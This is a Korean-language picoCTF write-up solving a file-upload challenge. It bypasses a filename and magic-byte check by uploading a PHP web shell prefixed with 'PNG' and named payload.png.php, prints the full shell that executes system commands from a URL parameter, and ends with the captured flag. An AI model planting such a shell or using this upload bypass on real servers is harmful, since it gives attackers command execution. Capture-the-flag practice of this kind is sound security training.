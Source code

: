 ```yaml
---
tags:
  - picoCTF
tech:
---
```

#web  #File-Upload  #PNG #php 

# Walk Throught

문제를 읽어보면 PNG 파일만 업로드 할 수 있는 시스템이라는 언급이 되어있다. 링크로 접속하면 파일을 업로드 할 수 있는 인터페이스가 보이는 PNG 파일 업로드 외에 다른 파일을 업로드하면 다음과 같은 메시지가 뜬다.
```
Error: File name does not contain '.png'.
```
힌트를 얻기 위해 "/robots.txt"로 접속하면 두 파일이 보인다.
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
``` 
아래는 instruction.txt 파일이다.
```text
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
읽어보면 PNG 파일 시그니처를 검사해 PNG 파일의 유효성을 체크하는 듯 보인다. 그렇다면 PHP 파일을 PNG 파일 시그니처만 삽입해서 업로드하면 어떨까? 

PHP 파일을 통해서 Shell을 사용할 수 있는 Payload는 다음 링크에서 얻을 수 있다.
```
https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
```
해당 파일을 다음과 같이 수정하자.
```html
PNG
 <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

이제 파일을 업로드하면 PNG 유효성 체크를 통과해서 PHP를 실행시킬 수 있다. 다음과 같은 URL로 접속하자.
```
http://atlas.picoctf.net:49280/uploads/payload.png.php
```
시스템 내에 숨겨진 flag에 찾기위해 최초 접근했던 디렉터리로 가보자.
```
total 16
drwxrwxrwt 1 www-data www-data   21 Mar 12  2024 .
drwxr-xr-x 1 root     root       18 Nov 21  2023 ..
-rw-r--r-- 1 root     root       49 Mar 12  2024 GQ4DOOBVMMYGK.txt
-rw-r--r-- 1 root     root     1572 Feb  7  2024 index.php
-rw-r--r-- 1 root     root      415 Feb  7  2024 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7  2024 robots.txt
drwxr-xr-x 1 www-data root       70 Sep 18 07:30 uploads
```

"GQ4DOOBVMMYGK.txt" 에 플래그가 숨겨져있다.


/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */